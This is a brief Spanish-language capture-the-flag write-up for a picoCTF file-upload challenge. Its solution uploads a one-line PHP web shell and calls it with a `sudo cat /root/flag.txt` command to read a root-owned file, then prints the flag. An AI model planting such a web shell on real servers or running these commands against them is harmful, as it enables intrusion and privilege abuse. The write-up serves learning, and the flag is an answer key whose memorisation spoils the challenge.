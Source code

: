## Descripción

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory.You can access the web application [here](http://standard-pizzas.picoctf.net:59963/)!
## Pistas

1. File upload was not sanitized
2. Whenever you get a shell on a remote machine, check `sudo -l`

## Solución

`Subimos una pp y nos sale esto`
`The file snoppy data.jpg has been uploaded Path: uploads/snoppy data.jpg`

`Crearemos un archivo nano:` 
`<?php system($_GET['mycommand']); ?>`

`Cargamos el php en la página y después ingresamos a esta dirección`
`http://standard-pizzas.picoctf.net:59963/uploads/payload.php?mycommand=sudo%20cat%20/root/flag.txt`

`picoCTF{wh47_c4n_u_d0_wPHP_b42a374d}`
## Notas Adicionales



## Referencias
- 

